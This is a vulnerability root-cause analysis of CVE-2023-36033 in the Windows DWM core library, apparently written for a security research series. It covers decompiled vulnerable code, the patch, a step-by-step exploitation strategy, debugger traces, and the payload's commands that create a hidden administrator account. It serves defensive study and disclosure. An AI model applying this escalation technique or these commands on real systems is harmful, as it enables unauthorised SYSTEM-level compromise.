

# CVE-2023-36033: Windows DWM Core Library Elevation of Privilege Vulnerability
*Genwei Jiang, FLARE OTF*

## The Basics

**Disclosure or Patch Date:** Nov 14, 2023

**Product:** Windows 10, Windows Server 2019/2022, Windows 11

**Advisory:** https://msrc.microsoft.com/update-guide/vulnerability/CVE-2023-36033

**Affected Versions:** pre Nov 14, 2023

**First Patched Version:** Nov 14, 2023

**Issue/Bug Report:** N/A

**Patch CL:** N/A

**Bug-Introducing CL:** N/A

**Reporter(s):** [Quan Jin (@jq0904)](https://twitter.com/jq0904) with [DBAPPSecurity WeBin Lab](https://www.dbappsecurity.com.cn/product/cloud250.html)

## The Code

**Proof-of-concept:** N/A

**Exploit sample:** [3a3feea7ededb728efce89a6d74a823d700e2fe9994bc8791e132bf548473e93](https://www.virustotal.com/gui/file/3a3feea7ededb728efce89a6d74a823d700e2fe9994bc8791e132bf548473e93)

**Did you have access to the exploit sample when doing the analysis?** Yes

## The Vulnerability

**Bug class:** User Controlled Data Dereference

**Vulnerability details:**

An arbitrary object dereference vulnerability exists in the `CKeyframeAnimation::SampleStartingValue` method implemented in the *Desktop Window Manager*'s `dwmcore.dll` library file, that can be leveraged to leak a heap address within the `dwm.exe` process and execute shellcode with `Window Manager\DWM` user privilege. The in-the-wild exploit escalates to `SYSTEM` through a novel exploitation method detailed in later sections.



The `CKeyframeAnimation::SampleStartingValue` processes the `DCOMPOSITION_EXPRESSION_TYPE_PATH`*(0xB)* with a user controlled data pointer through a shared section between the attacker and `dwm.exe` process. Once this data pointer is dereferenced within the `Microsoft::WRL::ComPtr<CPathData>::operator=` function call, it can be used as a primitive for a heap address leakage and subsequent shellcode execution. A pseudo decompilation of the vulnerable code is listed as follows:
```C++
// dwmcore.dll ver 10.0.19041.3393
__int64 __fastcall CKeyframeAnimation::SampleStartingValue(CKeyframeAnimation *this)
{
  // [COLLAPSED LOCAL DECLARATIONS. PRESS KEYPAD CTRL-"+" TO EXPAND]

  memset_0(&v19, 0, 0x40ui64);
  
  // retrieve the shared cache from the CKeyframeAnimation instance
  user_controlled_ptr = this->pStartingValueSharedCache;
  resolved_heap_obj = 0i64;
   
  // will be dwmcore!CPathGeometry::GetProperty() for exploit
  resolved_heap_obj = CResource::GetProperty()
  
  // ... omitted …
  // get the expression data type, which will by CPathGeometry for the exploit
  expressionType = this->ExpressionType;

  // set expression type value into the user controlled shared section,
  // leveraged as an indicator of successful exploitation
  user_controlled_ptr->ExpressionDataType = expressionType;

  // handle the expression type
  switch (expressionType) {
      // ... omitted …
      case DCOMPOSITION_EXPRESSION_TYPE_PATH: // 11
        Microsoft::WRL::ComPtr<CPathData>::operator=(
               user_controlled_ptr->pExpressionDataValue,
               resolved_heap_obj);
        break;
      // ... omitted ...

      }
    }
    // ... omitted ...
}

__int64 *__fastcall Microsoft::WRL::ComPtr<CPathData>::operator=(
        __int64 *user_controlled_ptr,
        __int64 resolved_heap_obj)
{
  // [COLLAPSED LOCAL DECLARATIONS. PRESS KEYPAD CTRL-"+" TO EXPAND]

  if ( *user_controlled_ptr == resolved_heap_obj )
    return user_controlled_ptr;

  Microsoft::WRL::ComPtr<IMessageCallSendHost>::InternalAddRef(&resolved_heap_obj);

  fake_obj = *user_controlled_ptr;

  // set value into buffer under control
  // used as a leak primitive
  *user_controlled_ptr = resolved_heap_obj;

  // fake_obj from buffer under control
  // used as a code execution primitive, detonates the crafted gadgets
  if ( fake_obj )
    (*(void (__fastcall **)(__int64))(*(_QWORD *)fake_obj + 0x10i64))(fake_obj);
  return user_controlled_ptr;
}
```

A typical stack trace when dereferencing user controlled data:
```
(2738.1990): Access violation - code c0000005 (first/second chance not available)
First chance exceptions are reported before any exception handling.
This exception may be expected and handled.
dwmcore!Microsoft::WRL::ComPtr<CPathData>::operator=+0x2f:
00007ff8`52070e47 488b01          mov     rax,qword ptr [rcx] ds:41414141`41414141=????????????????
0:001> k
Child-SP          RetAddr               Call Site
00000092`9961f080 00007ff8`51fb5911     dwmcore!Microsoft::WRL::ComPtr<CPathData>::operator=+0x2f
00000092`9961f0b0 00007ff8`51ee750e     dwmcore!CKeyframeAnimation::SampleStartingValue+0xcdf39
00000092`9961f150 00007ff8`51ee6fba     dwmcore!CKeyframeAnimation::SampleExpressionsAndStartingValue+0x5a
00000092`9961f190 00007ff8`51ee708f     dwmcore!CKeyframeAnimation::OnAnimationEvent+0x62
00000092`9961f1d0 00007ff8`51ee64cc     dwmcore!CKeyframeAnimation::Play+0x6b
00000092`9961f200 00007ff8`51ee5d04     dwmcore!CKeyframeAnimation::ApplyPlaybackStateChanges+0x84
00000092`9961f240 00007ff8`51f3ea82     dwmcore!CKeyframeAnimation::CalculateValueWorker+0x44
00000092`9961f360 00007ff8`51f3e702     dwmcore!CBaseExpression::CalculateValue+0x172
00000092`9961f4b0 00007ff8`51f3dc16     dwmcore!CExpressionManager::UpdateExpressions+0x132
00000092`9961f5d0 00007ff8`51f3b55f     dwmcore!CComposition::PreRender+0xdf6
00000092`9961f7e0 00007ff8`51f38f94     dwmcore!CPartitionVerticalBlankScheduler::ProcessFrame+0x55f
00000092`9961fb00 00007ff8`51ef3739     dwmcore!CPartitionVerticalBlankScheduler::ScheduleAndProcessFrame+0xb4
00000092`9961fc80 00007ff8`573b7614     dwmcore!CConnection::RunCompositionThread+0x21d
00000092`9961fd10 00007ff8`576a26a1     KERNEL32!BaseThreadInitThunk+0x14
00000092`9961fd40 00000000`00000000     ntdll!RtlUserThreadStart+0x21
```

**Patch analysis:**

A new member field is introduced in the *CAKeyframeAnimation* object. When the `CKeyframeAnimation::SampleStartingValue` function processes the `DCOMPOSITION_EXPRESSION_TYPE_PATH` *(0xB)* expression type, the member field is utilized instead of the user controlled pointer through the shared section. This eliminates the heap object address leakage and attacker controlled code execution.
```C++
      // dwmcore.dll ver 10.1.19041.3693
      // CKeyframeAnimation::SampleStartingValue(CKeyframeAnimation *this)
      // handling the DCOMPOSITION_EXPRESSION_TYPE_PATH
      v9 = expressionType - 0xB;
      if ( !v9 )
      {
        // lea     rcx, [rsi+1A8h]
        // this + 0x35, +1A8h likely a member of CKeyframeAnimation, namely m_startingValuePath
        wil::com_ptr_t<CColorGradientStop,wil::err_returncode_policy>::operator=((__int64 *)this + 0x35, v23);
        goto LABEL_10;
      }
```

**Thoughts on how this vuln might have been found _(fuzzing, code auditing, variant analysis, etc.)_:**

The attacker demonstrates a comprehensive understanding of critical `Direct Composition` components. Foundational knowledge, such as understanding what (undocumented) properties exist (and their type) for all the relevant resource objects used, execution flow between the dispatching at both the kernel and user-mode levels, is displayed. The attacker further developed a novel exploitation method to escalate privileges from the `Window Manager\DWM` user to `SYSTEM`. The exploit is likely developed through manual analysis.

**(Historical/present/future) context of bug:** 

- `CVE-2022-21896` is similar to the root cause that an arbitrary data pointer dereference vulnerability exists in `CExpression::ReadValueFromCache` function
- `CVE-2022-21902` is an OOB read in `CKeyframeAnimation::AddKeyframeData` dealing with *DCOMPOSITION_EXPRESSION_TYPE_PATH* type of `CPathData`

## The Exploit

(The terms *exploit primitive*, *exploit strategy*, *exploit technique*, and *exploit flow* are [defined here](https://googleprojectzero.blogspot.com/2020/06/a-survey-of-recent-ios-kernel-exploits.html).)

**Exploit strategy (or strategies):**

- Create `DirectComposition` channel
- Create required resources for code execution down to the vulnerable function
  - Create resource of type `CKeyframeAnimationMarshaler`
  - Create resource of type `CPathGeometryMarshaler`
  - Create resource of type `CSharedSectionMarshaler`
- Setup connections between these resources through crafting `BatchBuffer` and `NtDCompositionProcessChannelBatchBuffer` call
- Setup the shared buffer that contains fake object gadgets for code execution
- Setup the shared buffer for leak primitive usage
- Trigger the vulnerable code path through `NtDCompositionDestroyChannel` call and leak the heap address of the fake object gadgets buffer copied into `dwm.exe` process
- Execute the above strategy once more to detonate a set of gadgets inside `dwm.exe` through setting the leaked heap address into the shared buffer
  - the second stage payload is stored within the shared section via the creation of the `CSharedSectionMarhshaler` object prior
  - The primary set of gadgets revolve around a succession of calls through `SHCORE!IUnknown_AtomicRelease`, `SHCORE!IStream_Size`, and `combase!CStdStubBuffer2::Disconnect`, which will be used to change the shared section’s memory protection to executable via a `VirtualProtect` call and result in spawning a new thread to the payload code inside the shared section


**2nd Stage Exploit Flow:** 

The aforementioned exploit strategy triggers a shellcode execution within the `dwm.exe` process that runs with the `Window Manager\DWM` user privilege. The shellcode is a reflective dll dropper, that drops a final dll payload with SHA256 [97cf4e82a902de6a1530499af32afdcf6f79253a10f51b89f92e84ae503f89c3](https://www.virustotal.com/gui/file/97cf4e82a902de6a1530499af32afdcf6f79253a10f51b89f92e84ae503f89c3/details) into `C:\Users\Public\rdll.dll`, places a *jmp* hook on the `kernelbase!MapViewOfFile` call within the `dwm.exe` process, and triggers a logoff by executing `shutdown /l` command.

The logoff action triggers execution of the `LogonUI.exe` process, which runs as a `SYSTEM` user. The `LogonUI.exe` process will communicate with the *Desktop Window Manager* `dwm.exe` process similar to any desktop GUI process, that will marshal/unmarshal Direct Composition objects between one another. The `MapViewOfFile` hook inside `dwm.exe` monitors the mapped heap content and modifies it with another set of crafted gadgets that are utilized to execute a `LoadLibraryA` call of the dropped dll, when the resource heap data is unmarshalled within the `LogonUI.exe` process.

The call stack at the moment of when `dwm.exe` processes the request from `LogonUI.exe` and calls the `MapViewOfFile` function:
```
0:002>
rax=00007ff927d74680 rbx=0000028075499a90 rcx=0000000000000e9c
rdx=0000000000000006 rsi=0000000000000000 rdi=0000000000000e9c
rip=00007ff92b11bd70 rsp=000000842b6fee68 rbp=000000842b6ff060
 r8=0000000000000000  r9=0000000000000000 r10=00000fff24fae8d0
r11=0100001000010040 r12=0000028076400078 r13=0000000000000018
r14=0000028070832940 r15=0000028076ea14e0
iopl=0         nv up ei pl zr na po nc
cs=0033  ss=002b  ds=002b  es=002b  fs=0053  gs=002b             efl=00000246
KERNELBASE!MapViewOfFile:
00007ff9`2b11bd70 e96252b7ff      jmp     00007ff9`2ac90fd7
0:002> k
Child-SP          RetAddr               Call Site
00000084`2b6fee68 00007ff9`27d746ef     KERNELBASE!MapViewOfFile
00000084`2b6fee70 00007ff9`27d746a0     dwmcore!CSharedSectionBase::MapSharedMemory+0x23
00000084`2b6feeb0 00007ff9`27ce417b     dwmcore!CSharedSectionBase::OnChanged+0x20
00000084`2b6feee0 00007ff9`27d76689     dwmcore!CResource::NotifyOnChanged+0x3b
00000084`2b6fef30 00007ff9`27d500a9     dwmcore!CCrossContainerGuestReadWriteSharedSection::ProcessUpdate+0x1d
00000084`2b6fef60 00007ff9`27d4ddf3     dwmcore!CComposition::ProcessMessage+0x21bd
00000084`2b6ff230 00007ff9`27d4bfd7     dwmcore!CComposition::ProcessCommandBatch+0xf3
00000084`2b6ff2a0 00007ff9`27d4bed4     dwmcore!CComposition::ProcessDataOnChannel+0x57
00000084`2b6ff2e0 00007ff9`27d4be4c     dwmcore!CComposition::ProcessPartitionCommand+0x64
00000084`2b6ff320 00007ff9`27d1d05e     dwmcore!CKernelTransport::DispatchBatches+0x6c
00000084`2b6ff370 00007ff9`27d1b55f     dwmcore!CComposition::PreRender+0x23e
00000084`2b6ff580 00007ff9`27d18f94     dwmcore!CPartitionVerticalBlankScheduler::ProcessFrame+0x55f
00000084`2b6ff8a0 00007ff9`27cd3739     dwmcore!CPartitionVerticalBlankScheduler::ScheduleAndProcessFrame+0xb4
00000084`2b6ffa20 00007ff9`2d267614     dwmcore!CConnection::RunCompositionThread+0x21d
00000084`2b6ffab0 00007ff9`2d3a26a1     KERNEL32!BaseThreadInitThunk+0x14
00000084`2b6ffae0 00000000`00000000     ntdll!RtlUserThreadStart+0x21
0:002> u 00007ff9`2ac90fd7
00007ff9`2ac90fd7 ff2500000000    jmp     qword ptr [00007ff9`2ac90fdd]
00007ff9`2ac90fdd 1022            adc     byte ptr [rdx],ah
00007ff9`2ac90fdf 437680          jbe     00007ff9`2ac90f62
00007ff9`2ac90fe2 0200            add     al,byte ptr [rax]
00007ff9`2ac90fe4 0000            add     byte ptr [rax],al
00007ff9`2ac90fe6 0000            add     byte ptr [rax],al
00007ff9`2ac90fe8 0000            add     byte ptr [rax],al
00007ff9`2ac90fea 0000            add     byte ptr [rax],al
0:002> u poi(00007ff9`2ac90fdd)
00000280`76432210 4053            push    rbx
00000280`76432212 4881ecb0000000  sub     rsp,0B0h
00000280`76432219 488b8424e0000000 mov     rax,qword ptr [rsp+0E0h]
00000280`76432221 ba06000000      mov     edx,6
00000280`76432226 4889442420      mov     qword ptr [rsp+20h],rax
00000280`7643222b ff15e7270500    call    qword ptr [00000280`76484a18]
00000280`76432231 833dcc27050000  cmp     dword ptr [00000280`76484a04],0
00000280`76432238 488bd8          mov     rbx,rax
0:002> u poi(00000280`76484a18) l3
00007ff9`2ac90fc0 4883ec48        sub     rsp,48h
00007ff9`2ac90fc4 834c2430ff      or      dword ptr [rsp+30h],0FFFFFFFFh
00007ff9`2ac90fc9 ff2500000000    jmp     qword ptr [00007ff9`2ac90fcf]
0:002> u poi(00007ff9`2ac90fcf) l5
KERNELBASE!MapViewOfFile+0x9:
00007ff9`2b11bd79 488b442470      mov     rax,qword ptr [rsp+70h]
00007ff9`2b11bd7e 488364242800    and     qword ptr [rsp+28h],0
00007ff9`2b11bd84 4889442420      mov     qword ptr [rsp+20h],rax
00007ff9`2b11bd89 e812000000      call    KERNELBASE!MapViewOfFileExNuma (00007ff9`2b11bda0)
00007ff9`2b11bd8e 4883c448        add     rsp,48h
00007ff9`2b11bd92 c3              ret
```

The hook modifies the *vftable* function pointer of a `dcomp!DirectComposition::CSharedAllocation` object, that leads to gadget detonation during destruction of the object. The stack trace and gadgets for loading dll from `LogonUI.exe` process are as follows:
```
rax=0000000000000000 rbx=00000104cd1e4560 rcx=00000104c8b30720
rdx=0000000000000001 rsi=00000001006fe8a0 rdi=00000000ffffffff
rip=00007ff92769804c rsp=00000001006fe7f0 rbp=0000000000000001
 r8=00000001006fe8a0  r9=0000000000001000 r10=00000fff24ed3004
r11=0000010000000011 r12=00000104cd2a5dd0 r13=0000000000000000
r14=00000104cd2bd108 r15=00000104cd1e4560
iopl=0         nv up ei pl zr ac po cy
cs=0033  ss=002b  ds=002b  es=002b  fs=0053  gs=002b             efl=00000257
dcomp!Windows::UI::Composition::ExpressionAnimator::Destroy+0x2c:
00007ff9`2769804c 4883c108        add     rcx,8
0:015> u . l4
dcomp!Windows::UI::Composition::ExpressionAnimator::Destroy+0x2c:
00007ff9`2769804c 4883c108        add     rcx,8
00007ff9`27698050 488b01          mov     rax,qword ptr [rcx]
00007ff9`27698053 488b4010        mov     rax,qword ptr [rax+10h]
00007ff9`27698057 ff1553591500    call    qword ptr [dcomp!_guard_dispatch_icall_fptr (00007ff9`277ed9b0)]
0:015> dq 00000104c8b30720
00000104`c8b30720  00000104`c8b301c8 00000104`c8b301b0
00000104`c8b30730  00000000`00000003 00000000`00000000
00000104`c8b30740  00000000`00000000 00000000`00000000
00000104`c8b30750  00000104`cd2d8520 3f800000`00000008
00000104`c8b30760  00000000`00000000 00000000`00000000
00000104`c8b30770  00000000`3f800000 00000000`00000000
00000104`c8b30780  3f800000`00000000 00000000`00000000
00000104`c8b30790  00000000`00000000 00000009`3f800000
0:015> dps 00000104`c8b301c8
00000104`c8b301c8  00007ff9`2b84f050 user32!CBaseLocalHook<4>::`vftable'+0x18
00000104`c8b301d0  00000000`00000000
00000104`c8b301d8  00000000`00000000
00000104`c8b301e0  00000000`00000000
00000104`c8b301e8  00007ff9`2b473780 combase!HICON_UserFree64 [onecore\com\combase\proxy\proxy\transmit.cxx @ 1802]
00000104`c8b301f0  00000104`c8b301f8
00000104`c8b301f8  73726573`555c3a43
00000104`c8b30200  5c63696c`6275505c
00000104`c8b30208  6c6c642e`6c6c6472
00000104`c8b30210  00000000`00000000
00000104`c8b30218  00000000`00000000
00000104`c8b30220  00000000`00000000
00000104`c8b30228  00000104`c8b30000
00000104`c8b30230  00007ff9`2d270c70 KERNEL32!LoadLibraryAStub
00000104`c8b30238  00000000`00004000
00000104`c8b30240  00000000`00004000
0:015> da 00000104`c8b301f8
00000104`c8b301f8  "C:\Users\Public\rdll.dll"
0:015> ln poi(00007ff9`2b84f050+20)
(00007ff9`2b7e2780)   user32!_fnCOPYDATA   |  (00007ff9`2b7e2800)   user32!_fnPOWERBROADCAST
Exact matches:
0:015> dps 00000104`c8b301b0 l3
00000104`c8b301b0  00000000`00000000
00000104`c8b301b8  00007ff9`2b524440 combase!CStdStubBuffer2_Disconnect [onecore\com\combase\ndr\ndrole\stub.cxx @ 1372]
00000104`c8b301c0  00007ff9`2b524440 combase!CStdStubBuffer2_Disconnect [onecore\com\combase\ndr\ndrole\stub.cxx @ 1372]
0:015> dx @$curprocess.Name
@$curprocess.Name : LogonUI.exe
    Length           : 0xb
```

The final dll payload adds an administrator user `sec_ops`, executes a `whoami` command, and redirects the output into file `C:\b.txt`.
```
cmd.exe /c net localgroup administrators sec_ops /add
cmd.exe /c net user /add sec_ops Bulleye1!
cmd.exe /c whoami >> C:\b.txt
```

**Known cases of the same exploit flow:** N/A

**Part of an exploit chain?** N/A

## The Next Steps

### Variant analysis

**Areas/approach for variant analysis (and why):** N/A

**Found variants:** 
- Although not reported or known to be exploited in-the-wild, to the best of my knowledge, FLARE found another variant inside `dwmcore.dll` that has the identical flaw as `CVE-2023-36033` in relation to an arbitrary object dereference around the same object. The bug is inside the `CKeyframeAnimation::GetSamplesStartingValue` method. The patch from Microsoft addresses this bug as well.

### Structural improvements

What are structural improvements such as ways to kill the bug class, prevent the introduction of this vulnerability, mitigate the exploit flow, make this type of vulnerability harder to exploit, etc.?

**Ideas to kill the bug class:** N/A

**Ideas to mitigate the exploit flow:** N/A

**Other potential improvements:** N/A

### 0-day detection methods

What are potential detection methods for similar 0-days? Meaning are there any ideas of how this exploit or similar exploits could be detected **as a 0-day**? N/A

## Other References 

- [THE LOST WORLD OF DIRECTCOMPOSITION: HUNTING WINDOWS DESKTOP WINDOW MANAGER BUGS](https://conference.hitb.org/hitbsecconf2023ams/session/hunting-windows-desktop-window-manager-bugs/)
- [Analysis of DirectComposition Binding and Tracker object vulnerability](https://iamelli0t.github.io/2021/08/15/DirectComposition.html)
- [CVE-2021-26900: PRIVILEGE ESCALATION VIA A USE AFTER FREE VULNERABILITY IN WIN32K](https://www.zerodayinitiative.com/blog/2021/5/3/cve-2021-26900-privilege-escalation-via-a-use-after-free-vulnerability-in-win32k)

